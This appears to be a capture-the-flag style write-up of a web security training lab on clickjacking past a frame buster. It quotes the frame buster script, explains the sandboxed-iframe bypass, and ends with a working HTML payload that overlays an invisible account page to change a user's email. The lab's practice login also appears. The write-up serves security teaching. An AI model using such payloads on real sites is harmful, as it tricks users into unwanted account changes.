



# Clickjacking with a frame buster script
# Objective
This lab is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address?

To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter` 

# Solution
## Analysis
Website allows for prepopulation of `email` field using parameter in `GET` request.

||
|:--:| 
| *Change email functionality* |
| *Frame buster script* |
||
| *Prepopulation of email field via GET parameter* |

Frame buster script from image above:
```js
if(top != self) {  // Check if page is framed (inside <iframe>)
    window.addEventListener("DOMContentLoaded", function() {
        document.body.innerHTML = 'This page cannot be framed';
    }, false);
}
```

## Exploitation
To bypas frame buster script attacker can create `iframe` with `allow-forms` or `allow-scripts` atributes. Both the `allow-forms` and `allow-scripts` values permit the specified actions within the iframe but top-level navigation is disabled. This blocks frame busting behaviors while allowing functionality within the targeted site.

||
|:--:| 
| *Alligining "Click me" button* |


Final payload:
```html
<style>
    iframe {
        position:relative;
        width: 1000;
        height: 500;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 480;
        left: 80;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0aae000703b84840874f74a100f60079.web-security-academy.net/my-account?email=hacker@hacker.com"></iframe>
```


